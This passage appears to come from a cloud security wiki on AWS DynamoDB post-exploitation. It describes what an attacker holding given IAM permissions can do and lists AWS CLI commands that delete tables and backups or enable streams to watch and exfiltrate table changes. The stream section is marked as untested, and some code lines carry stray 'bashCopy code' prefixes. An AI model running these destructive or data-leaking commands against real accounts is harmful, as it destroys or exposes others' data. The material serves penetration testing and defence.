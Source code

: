 {{#endtab }}
{{#endtabs }}

**Potential Impact:** Exploitation of further vulnerabilities/bypasses by being able to add/modify data in a DynamoDB table

### `dynamodb:DeleteTable`

An attacker with this permission can **delete a DynamoDB table, causing data loss**.

```bash
aws dynamodb delete-table \
    --table-name TargetTable \
    --region <region>
```

**Potential impact**: Data loss and disruption of services relying on the deleted table.

### `dynamodb:DeleteBackup`

An attacker with this permission can **delete a DynamoDB backup, potentially causing data loss in case of a disaster recovery scenario**.

```bash
aws dynamodb delete-backup \
    --backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
    --region <region>
```

**Potential impact**: Data loss and inability to recover from a backup during a disaster recovery scenario.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

> [!NOTE]
> TODO: Test if this actually works

An attacker with these permissions can **enable a stream on a DynamoDB table, update the table to begin streaming changes, and then access the stream to monitor changes to the table in real-time**. This allows the attacker to monitor and exfiltrate data changes, potentially leading to data leakage.

1. Enable a stream on a DynamoDB table:

```bash
bashCopy codeaws dynamodb update-table \
    --table-name TargetTable \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
    --region <region>
```

2. Describe the stream to obtain the ARN and other details:

```bash
bashCopy codeaws dynamodb describe-stream \
    --table-name TargetTable \
    --region <region>
```
